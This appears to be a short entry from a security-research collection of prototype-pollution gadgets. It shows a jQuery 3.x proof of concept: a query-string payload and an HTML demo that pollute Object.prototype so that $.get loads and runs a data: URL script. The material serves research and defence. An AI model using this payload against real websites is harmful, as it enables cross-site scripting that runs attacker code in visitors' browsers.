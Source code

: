 ## jQuery >= 3.0.0 

URL: https://jquery.com/

### PoC
```
?__proto__[url][]=data:,alert(1)//&__proto__[dataType]=script
```

```html
<script src=https://code.jquery.com/jquery-3.5.1.js></script>
<script> 
  Object.prototype.url = ['data:,alert(1)//'];   
  Object.prototype.dataType = 'script';    
</script>      
<script>
  $.get('https://google.com/'); 
</script>
```